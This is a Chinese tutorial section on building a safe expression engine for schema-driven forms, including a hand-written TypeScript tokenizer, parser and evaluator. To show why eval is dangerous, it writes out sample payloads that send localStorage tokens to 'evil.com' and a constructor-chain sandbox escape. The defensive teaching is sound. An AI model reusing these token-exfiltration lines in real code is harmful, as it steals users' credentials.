


> 本文是《1. 通用底座（1.5 周，先于一切场景）》按小节拆分后的续篇，上一部分见 [05-1-3-递归渲染器.md](05-1-3-递归渲染器.md)。

### 1.4 表达式引擎

- 为什么禁用 `eval`/`new Function`：安全 + 作用域失控
- 选型：expr-eval（轻）、jexl、jsonata（强）
- 求值上下文注入：`{ $form, $user, $now }`，表达式里能读变量
- ✍️ 练习：**手写一个 100 行的 mini 求值器**（词法 → AST → 递归求值，支持四则/比较/逻辑/属性访问），做完你对 Babel/模板引擎的理解会上一个台阶

#### 是什么

表达式引擎是一个"受限语言解释器"：输入表达式字符串（`$form.age >= 18 && $user.vip`）和一个上下文对象（`{ $form, $user }`），输出求值结果（`true`）。语法通常覆盖：四则运算、比较、逻辑、属性访问、括号、字面量——恰好够表达"联动、条件、绑定"这类配置逻辑，且完全不含赋值、函数调用、循环等危险能力。

#### 为什么需要：协议里"逻辑是数据"的另一半

1.1 的设计原则 2 规定：schema 不含可执行代码，逻辑走表达式。那逻辑的**执行者**必须有人来当——这就是表达式引擎。它要同时满足四个条件：安全（不能执行任意代码）、可控（只能访问显式注入的变量）、可缓存（同一表达式避免重复解析）、可报错（配置期就能把语法错误标红）。

#### 为什么禁用 `eval` / `new Function`：逐条拆

假设直接 `eval(visibleWhen)` 来求值表达式，会发生什么：

1. **任意代码执行**。表达式来自 schema，schema 存在服务端、由运营或第三方接入方编写。`eval` 把它当代码跑，等于把存储型 XSS 引进门：

```ts
// 看起来是个"显示条件"，实际是一段偷数据的代码：
// "(function(){ fetch('//evil.com?c=' + localStorage.getItem('token')) })() || true"
const visible = eval(schema.visibleWhen)
```

   它能读 localStorage、发请求、改 DOM、植入键盘记录器——运行在**每个访问该页面的用户**浏览器里。

2. **作用域失控**。`eval` 在调用处的词法作用域内执行，能读写你闭包里的任何变量——你根本无法静态知道"这条表达式摸过了什么"。`new Function` 好一点（函数体在全局作用域执行），但它并没有解决安全问题：

```ts
// new Function 一样能拿全局对象、一样能发请求：
new Function('return fetch("//evil.com?c=" + localStorage.token)')()
// 经典的"沙箱逃逸"：从任意值摸到 Function 构造器，再拿 globalThis
new Function('return ({}).constructor.constructor("return globalThis")')()
```

   所谓"用 new Function 包一层就安全了"是错觉，它只是换了个执行位置。

3. **无法限制资源**。`eval('while(true){}')` 直接卡死主线程，你没有任何手段设超时（因为它就是同步代码）。

4. **CSP 冲突**。生产环境的 Content-Security-Policy 一旦禁用 `unsafe-eval`（安全团队的标准操作），eval 与 new Function 直接抛错——功能整体不可用。

而受限求值器从语法层就不存在这些能力面：语法里没有函数调用、没有赋值、没有属性写访问；变量只能从注入的上下文里取；语法错误在解析期就报出来（配置界面能画红线），而不是求值期炸页面。这四个问题一次性消失。

#### 选型：expr-eval / jexl / jsonata 怎么挑

| 库 | 定位 | 适合 |
|---|---|---|
| expr-eval | 轻量数学/逻辑表达式 | 只要四则、比较、逻辑、函数调用 |
| jexl | 为"配置里的表达式"设计（Transformers、上下文注入友好） | 联动/权限表达式，配置系统 |
| jsonata | JSON 查询+转换语言（很强也较重） | 需要在 schema 里做复杂数据变换/查询 |

经验：底座期先用自研 mini 求值器（本节练习）覆盖 90% 场景（显隐、禁用、绑定取值），遇到"要查数组、要聚合"再引 jsonata——表达式的**语法面越小越安全**，按需扩。

#### 求值上下文注入：`{ $form, $user, $now }`

上下文是表达式能看到的"全部世界"。约定用 `$` 前缀命名，避免与将来可能出现的普通字段名冲突：

```ts
const ctx = {
  $form: { city: 'bj', age: 20 },      // 当前表单数据
  $user: { vip: true, roles: ['admin'] },
  $now: Date.now(),                     // 注意：取值时固化，不在每次求值时变化
  $item: { ... },                       // 列表场景：当前行数据
}
evaluateExpression('$form.age >= 18 && $user.vip', ctx) // true
```

#### 怎么做：手写 mini 求值器（约 110 行，词法 → AST → 递归求值）

整体架构与 Babel/模板引擎同构，只是每层都小到能一眼看完：



**第 1 模块：词法分析（tokenize）——字符串切分成记号**

```ts
// expr/engine.ts
// ============ 1. 词法分析：字符流 → Token 流 ============
type Token =
  | { kind: 'num'; value: number }
  | { kind: 'str'; value: string }
  | { kind: 'ident'; value: string }
  | { kind: 'op'; value: string }
  | { kind: 'eof' }

function tokenize(src: string): Token[] {
  const tokens: Token[] = []
  let i = 0
  while (i < src.length) {
    const c = src[i]
    if (c === ' ') { i++; continue }                        // 跳过空白
    if (/[0-9]/.test(c)) {                                  // 数字（含小数）
      let j = i
      while (j < src.length && /[0-9.]/.test(src[j])) j++
      tokens.push({ kind: 'num', value: parseFloat(src.slice(i, j)) })
      i = j; continue
    }
    if (/[A-Za-z_$]/.test(c)) {                             // 标识符/变量（$form 里含 $）
      let j = i
      while (j < src.length && /[A-Za-z0-9_$]/.test(src[j])) j++
      tokens.push({ kind: 'ident', value: src.slice(i, j) })
      i = j; continue
    }
    if (c === '"' || c === "'") {                           // 字符串字面量
      let j = i + 1
      while (j < src.length && src[j] !== c) j++
      if (j >= src.length) throw new SyntaxError('字符串缺少结束引号')
      tokens.push({ kind: 'str', value: src.slice(i + 1, j) })
      i = j + 1; continue
    }
    const three = src.slice(i, i + 3)                       // 先匹配三字符：=== !==
    if (three === '===' || three === '!==') {
      tokens.push({ kind: 'op', value: three }); i += 3; continue
    }
    const two = src.slice(i, i + 2)                         // 再匹配两字符：<= >= == != && ||
    if (['<=', '>=', '==', '!=', '&&', '||'].includes(two)) {
      tokens.push({ kind: 'op', value: two }); i += 2; continue
    }
    if ('+-*/().<>!'.includes(c)) {                         // 最后单字符运算符
      tokens.push({ kind: 'op', value: c }); i++; continue
    }
    throw new SyntaxError(`非法字符：${c}`)                  // 白名单之外直接拒绝
  }
  tokens.push({ kind: 'eof' })
  return tokens
}
```

机制说明：单指针 `i` 从左到右扫，每轮识别一个 token；运算符按"三字符 → 两字符 → 单字符"的顺序贪心匹配，保证 `>=` 不会被拆成 `>` 和 `=`；词法层就是白名单——出现列表之外的字符立刻抛错，攻击面在这里第一次收窄。

以 `'$form.age >= 18 && $user.vip'` 为例，产出：

```text
ident($form) op(.) ident(age) op(>=) num(18) op(&&) ident($user) op(.) ident(vip) eof
```

**第 2 模块：语法分析（parse）——Token 流 → AST（优先级爬升法）**

```ts
// ============ 2. 语法分析：Token 流 → AST ============
type Ast =
  | { type: 'Lit'; value: number | string | boolean | null }
  | { type: 'Ident'; name: string }
  | { type: 'Member'; obj: Ast; prop: string }              // 属性访问 a.b
  | { type: 'Unary'; op: '-' | '!'; arg: Ast }
  | { type: 'Binary'; op: string; left: Ast; right: Ast }   // 四则/比较
  | { type: 'Logical'; op: '&&' | '||'; left: Ast; right: Ast } // 逻辑（短路）

/** 运算符优先级：数字越大绑得越紧（先算） */
const BINARY_PREC: Record<string, number> = {
  '||': 1,
  '&&': 2,
  '==': 3, '!=': 3, '===': 3, '!==': 3,
  '<': 4, '>': 4, '<=': 4, '>=': 4,
  '+': 5, '-': 5,
  '*': 6, '/': 6,
}

function parse(src: string): Ast {
  const tokens = tokenize(src)
  let pos = 0
  const peek = (): Token => tokens[pos]
  const eatOp = (op: string): void => {
    const t = peek()
    if (t.kind === 'op' && t.value === op) { pos++; return }
    throw new SyntaxError(`期望 "${op}"，实际是 ${JSON.stringify(t)}`)
  }

  // 一元运算：-x、!x（递归支持 !!x、--x 的连续前缀）
  function parseUnary(): Ast {
    const t = peek()
    if (t.kind === 'op' && (t.value === '-' || t.value === '!')) {
      pos++
      return { type: 'Unary', op: t.value as '-' | '!', arg: parseUnary() }
    }
    return parsePostfix()
  }

  // 后缀：属性访问 a.b.c，左结合，优先级最高（!a.b 才能正确解析成 !(a.b)）
  function parsePostfix(): Ast {
    let node = parsePrimary()
    while (peek().kind === 'op' && (peek() as { value: string }).value === '.') {
      pos++
      const prop = peek()
      if (prop.kind !== 'ident') throw new SyntaxError(`"." 后应为属性名，实际是 ${JSON.stringify(prop)}`)
      pos++
      node = { type: 'Member', obj: node, prop: prop.value }
    }
    return node
  }

  // 最小单元：字面量 / 变量 / 括号
  function parsePrimary(): Ast {
    const t = peek()
    if (t.kind === 'num' || t.kind === 'str') { pos++; return { type: 'Lit', value: t.value } }
    if (t.kind === 'ident') {
      pos++
      if (t.value === 'true') return { type: 'Lit', value: true }
      if (t.value === 'false') return { type: 'Lit', value: false }
      if (t.value === 'null') return { type: 'Lit', value: null }
      return { type: 'Ident', name: t.value }
    }
    if (t.kind === 'op' && t.value === '(') {
      pos++
      const inner = parseExpr(0)
      eatOp(')')            // 括号只改变优先级，不出现在 AST 里
      return inner
    }
    throw new SyntaxError(`意外的记号 ${JSON.stringify(t)}`)
  }

  // 二元/逻辑：优先级爬升（precedence climbing）
  function parseExpr(minPrec: number): Ast {
    let left = parseUnary()
    for (;;) {
      const t = peek()
      if (t.kind !== 'op') break
      const prec = BINARY_PREC[t.value]
      if (prec === undefined || prec < minPrec) break   // 优先级不够就交还上层
      pos++
      const right = parseExpr(prec + 1)                 // +1：同级运算符左结合
      if (t.value === '&&' || t.value === '||') {
        left = { type: 'Logical', op: t.value as '&&' | '||', left, right }
      } else {
        left = { type: 'Binary', op: t.value, left, right }
      }
    }
    return left
  }

  const ast = parseExpr(0)
  if (peek().kind !== 'eof') throw new SyntaxError(`表达式末尾有多余内容：${JSON.stringify(peek())}`)
  return ast
}
```

机制说明——优先级爬升是本模块的灵魂，用 `1 + 2 * 3` 走一遍：

1. `parseExpr(0)` 先取左侧 `1`；
2. 看到 `+`（优先级 5 ≥ 0），右侧调 `parseExpr(5 + 1)`——右侧解析**只接受优先级 ≥ 6 的运算符**；
3. 右侧取 `2`，看到 `*`（优先级 6 ≥ 6 成立）继续，取 `3`，得 `2 * 3`；看到 eof 退出；
4. 回到外层拼成 `1 + (2*3)`——乘法自然比加法"绑得紧"，不需要为每级优先级写一个函数；
5. "同级左结合"由 `prec + 1` 保证：`1 - 2 - 3` 中第二个 `-`（优先级 5 < 5+1）不进右侧递归，回到外层拼成 `(1-2)-3`，结果 -4 而不是 2。

`$form.age >= 18 && $user.vip` 解析出的 AST：



**第 3 模块：递归求值（evaluate）——AST + 上下文 → 值**

```ts
// ============ 3. 递归求值：AST + 上下文 → 值 ============
function toBool(v: unknown): boolean {
  return Array.isArray(v) ? v.length > 0 : Boolean(v) // 数组按"非空"取真值（注意：与 JS 不同，JS 里 [] 也是 truthy；表达式引擎按"有没有值"判定更符合表单直觉）
}

export function evaluate(ast: Ast, ctx: Record<string, unknown>): unknown {
  switch (ast.type) {
    case 'Lit':
      return ast.value
    case 'Ident': {
      // 只能读显式注入的变量——作用域在这里被钉死
      if (!Object.prototype.hasOwnProperty.call(ctx, ast.name)) {
        throw new ReferenceError(`未定义的变量：${ast.name}`)
      }
      return ctx[ast.name]
    }
    case 'Member': {
      const obj = evaluate(ast.obj, ctx)
      if (obj == null) return undefined            // 中途 null/undefined 安全短路
      if (ast.prop === '__proto__' || ast.prop === 'constructor') {
        throw new Error(`禁止访问属性：${ast.prop}`) // 封死原型链攻击面
      }
      return (obj as Record<string, unknown>)[ast.prop]
    }
    case 'Unary': {
      const v = evaluate(ast.arg, ctx)
      return ast.op === '-' ? -Number(v) : !toBool(v)
    }
    case 'Logical': {
      // 短路求值：&& 左假返左值；|| 左真返左值（语义与 JS 完全对齐）
      const l = evaluate(ast.left, ctx)
      if (ast.op === '&&') return toBool(l) ? evaluate(ast.right, ctx) : l
      return toBool(l) ? l : evaluate(ast.right, ctx)
    }
    case 'Binary': {
      const l = evaluate(ast.left, ctx)
      const r = evaluate(ast.right, ctx)
      switch (ast.op) {
        case '+':
          // 任一侧是字符串则拼接；否则数值相加（与 JS 的 + 语义对齐）
          if (typeof l === 'string' || typeof r === 'string') return String(l) + String(r)
          return Number(l) + Number(r)
        case '-': return Number(l) - Number(r)
        case '*': return Number(l) * Number(r)
        case '/': return Number(l) / Number(r)
        case '<': case '>': case '<=': case '>=': {
          if (typeof l === 'string' && typeof r === 'string') {
            return ast.op === '<' ? l < r : ast.op === '>' ? l > r : ast.op === '<=' ? l <= r : l >= r
          }
          const a = Number(l), b = Number(r)
          return ast.op === '<' ? a < b : ast.op === '>' ? a > b : ast.op === '<=' ? a <= b : a >= b
        }
        case '==': return l == r   // eslint-disable-line eqeqeq —— 刻意保留 JS 宽松等式语义
        case '!=': return l != r   // eslint-disable-line eqeqeq
        case '===': return l === r
        case '!==': return l !== r
      }
    }
  }
}
```

**第 4 模块：对外 API + AST 缓存**

```ts
// ============ 4. 对外 API：解析一次，求值多次 ============
const astCache = new Map<string, Ast>()

export function evaluateExpression(src: string, ctx: Record<string, unknown>): unknown {
  let ast = astCache.get(src)
  if (!ast) {
    ast = parse(src)
    astCache.set(src, ast) // 表达式字符串是缓存键：配置项重复度高，命中率很高
  }
  return evaluate(ast, ctx)
}

/** 只解析不求值——给配置界面做"语法检查/红线提示" */
export function checkExpression(src: string): SyntaxError | null {
  try { parse(src); return null } catch (e) { return e as SyntaxError }
}
```

**测试用例清单**（✍️ 练习的验收标准）：

```ts
const ctx = { $form: { age: 20, name: '', price: 99 }, $user: { vip: true } }
evaluateExpression('1 + 2 * 3', ctx)                          // 7（优先级）
evaluateExpression('(1 + 2) * 3', ctx)                        // 9（括号）
evaluateExpression('-$form.price + 1', ctx)                   // -98（一元负号）
evaluateExpression('$form.age >= 18 && $user.vip', ctx)       // true（比较+逻辑）
evaluateExpression('!$form.name', ctx)                        // true（!'' → true）
evaluateExpression('$form.price > 50 || $user.vip', ctx)      // true（短路，右侧不求）
evaluateExpression('$user.roles', ctx)                        // undefined（安全返回，不抛）
evaluateExpression('"会员价：" + $form.price * 0.8', ctx)      // '会员价：79.2'（拼接+优先级）
checkExpression('$form.age >= ')                              // SyntaxError（语法检查）
evaluateExpression('$form.age >= 18', {})                     // ReferenceError（未注入变量）
```

逐模块讲解到此。回头再品这句话：**词法（切词）、语法（建树）、求值（走树）三段式就是 Babel 的三段式（parse → AST 转换 → generate）和模板引擎的三段式（编译 → AST → 渲染）**。做完这 110 行，你以后读任何"解释器型"源码都有了地图。

**React 集成：useExpression hook**

```tsx
import { useMemo } from 'react'
import { evaluateExpression } from './expr/engine'

/**
 * 在组件里求值表达式；表达式非法或求值出错返回 undefined，绝不炸组件
 * depsKey：手动提供"会影响结果的上下文指纹"（通常是相关字段的值拼接）
 */
export function useExpression<T = unknown>(
  expr: string | undefined,
  ctx: Record<string, unknown>,
  depsKey: string,
): T | undefined {
  return useMemo(() => {
    if (!expr) return undefined
    try {
      return evaluateExpression(expr, ctx) as T
    } catch {
      return undefined // 坏表达式按"条件不成立"处理，同时应在配置期用 checkExpression 提示
    }
    // eslint-disable-next-line react-hooks/exhaustive-deps
  }, [expr, depsKey])
}

// 用法：字段显隐联动
function DistrictField({ schema, form }: { schema: FormFieldSchema; form: FormData }) {
  const visible = useExpression<boolean>(schema.visibleWhen, { $form: form }, form.city)
  if (!visible) return null
  return <input placeholder={schema.label} />
}
```

#### 常见坑

- **症状**：运营配了个非法表达式（`$form.age >`），整个表单页白屏。
  **根因**：渲染期直接求值且没有 try/catch，语法错误沿渲染树抛出。
  **修法**：双层防御——配置期 `checkExpression` 在输入框下画红线（存盘前拦截）；运行期求值包 try/catch 返回 undefined（上面的 `useExpression` 已内置）。
- **症状**：联动一多，页面明显卡顿，Profile 里看到大量 `parse`。
  **根因**：每次求值都重新 parse（没用 AST 缓存），或每次渲染重建上下文对象导致缓存键失效。
  **修法**：`astCache` 按表达式字符串缓存；上下文注入用稳定引用（zustand selector 取出的数据）；表达式求值放 `useMemo`，依赖用"参与计算的值"而不是整个 `$form`。
- **症状**：`a 依赖 b、b 又依赖 a`，页面卡死或字段闪烁互跳。
  **根因**：联动构成循环，每轮求值都触发下一轮。
  **修法**：单轮求值限制（一次数据变更后所有表达式只统一求值一遍，不在求值中再触发变更）；更完整的方案是建立"字段 → 依赖字段"的依赖图做拓扑排序（第 2 章展开）。
- **症状**：表达式里 `$form.count == 1` 恒为 false。
  **根因**：count 实际是字符串 `'1'`，而配置的人想的是数字（`==` 与 `===` 的语义差在表达式里同样存在）。
  **修法**：在文档与配置提示里明确约定：数值字段注入前先 `Number()` 归一；或干脆在协议层给字段声明数据类型，注入时做类型转换。

#### 1.4.1 补充：坑位补遗——词法静默吞错、转义缺失、下标不可用、缓存无界、$now 固化

- **症状**：`evaluateExpression('$form.price * 1.2.3', ctx)` 不报错，结果是 `price * 1.2`，对账对了一下午才发现。
  **根因**：词法器的数字扫描用 `/[0-9.]/` 连吃，`1.2.3` 整段进 `parseFloat` 被静默截断——错误没有暴露，而是"变成了另一个数"，比抛错危险得多。
  **修法**：切出的数字串先做格式断言再入 token：

```ts
const raw = src.slice(i, j)
if (!/^\d+(\.\d+)?$/.test(raw)) throw new SyntaxError(`非法数字字面量：${raw}`)
tokens.push({ kind: 'num', value: parseFloat(raw) })
```

- **症状**：想配置含撇号的英文文案，写成 `'it\'s ok'`，报 `非法字符：s`。
  **根因**：字符串扫描遇引号即停、不处理 `\` 转义——`'it\'` 被当成完整字符串，剩余的 `s ok'` 从 s 处炸掉。
  **修法**：词法器支持白名单转义（够用且攻击面可控）：

```ts
if (c === '"' || c === "'") {
  let j = i + 1
  let out = ''
  while (j < src.length && src[j] !== c) {
    if (src[j] === '\\') {
      const next = src[j + 1]
      const map: Record<string, string> = { n: '\n', t: '\t', '\\': '\\', "'": "'", '"': '"' }
      if (next === undefined || !(next in map)) throw new SyntaxError(`不支持的转义：\\${next ?? ''}`)
      out += map[next]
      j += 2
    } else {
      out += src[j]
      j++
    }
  }
  if (j >= src.length) throw new SyntaxError('字符串缺少结束引号')
  tokens.push({ kind: 'str', value: out })
  i = j + 1
  continue
}
```

- **症状**：运营想写 `$form.tags[0] == 'hot'`，保存时直接报 `非法字符：[`，需求被打回"引擎做不了"。
  **根因**：不是 bug 是能力缺口——词法白名单与 AST 都没有下标访问；而数组访问是列表场景（表格列显隐、序列筛选）的刚需。
  **修法**：词法、语法、求值三处各加一点（这就是"语法面按需扩"的完整动作）：

```ts
// ① tokenize：单字符白名单追加中括号
if ('+-*/().<>![]'.includes(c)) { tokens.push({ kind: 'op', value: c }); i++; continue }

// ② AST 增加节点类型；parsePostfix 改成 . 与 [] 都认（支持 $form.rows[0].price 混用）
type Ast = /* 原有成员 */ | { type: 'Index'; obj: Ast; index: Ast }
while (peek().kind === 'op') {
  const v = (peek() as { value: string }).value
  if (v === '.') { pos++; /* 原有取属性名的逻辑不变 */ }
  else if (v === '[') {
    pos++
    const index = parseExpr(0) // 下标本身是表达式：$form.items[$form.cursor] 也支持
    eatOp(']')
    node = { type: 'Index', obj: node, index }
  } else break
}

// ③ evaluate 增加分支
case 'Index': {
  const obj = evaluate(ast.obj, ctx)
  const idx = evaluate(ast.index, ctx)
  if (obj == null) return undefined
  if (typeof idx === 'number' && !Number.isInteger(idx)) {
    throw new RangeError(`数组下标必须是整数，实际是 ${idx}`)
  }
  return (obj as Record<string | number, unknown>)[idx as string | number]
}
```

- **症状**：表单设计器开一整天，内存曲线持续上涨；Heap 快照里成千上万个 Ast 对象。
  **根因**：`astCache` 只进不出；更糟的用法是把数据拼进表达式——每个 `$form.list[${i}]` 都是一个新缓存键，键的数量随业务数据无限膨胀。
  **修法**：纪律 + 机制双层。纪律：**表达式必须是常量配置，数据永远走上下文**（把 `{ $item: list[i] }` 注入，而不是把 i 拼进字符串）；机制：缓存加上限、按插入序淘汰：

```ts
const MAX_AST_CACHE = 2000
if (!ast) {
  ast = parse(src)
  astCache.set(src, ast)
  if (astCache.size > MAX_AST_CACHE) {
    // Map 迭代序即插入序：删最旧（简版 LRU，未做读时续期——表达式集合通常远小于上限，够用）
    astCache.delete(astCache.keys().next().value as string)
  }
}
```

- **症状**：审批流里"今天 24 点前可提交"的判断 `$now < $form.deadline`，零点后用户反馈结果不对。
  **根因**：上下文对象在模块顶层只构建一次，`$now: Date.now()` 固化在页面加载时刻——表达式没变，变的是"now 的语义"。
  **修法**：上下文用工厂函数按次构建，并在团队文档里写死 `$now` 的刷新粒度承诺：

```ts
// 反例：模块顶层一次构建，跨天必错
const ctx = { $form, $user, $now: Date.now() }
// 正例：每次求值前构建（或作为 store 派生，随 $form 变更一起刷新）
const makeCtx = () => ({ $form: getForm(), $user: getUser(), $now: Date.now() })
```

---

## 附：ASCII 图替换清单

本文档图形化改版，原 ASCII 字符图与 Mermaid 图表对应关系如下：

| 原图位置 / 标题 | 处理结果 |
| --- | --- |
| 怎么做：表达式字符串 → Token 流 → AST → 值 的求值管线（含各阶段示例） | 替换为 flowchart LR（管道图） |
| $form.age >= 18 && $user.vip 解析出的 AST（Logical/Binary/Member 树） | 替换为 flowchart TD（AST 树） |
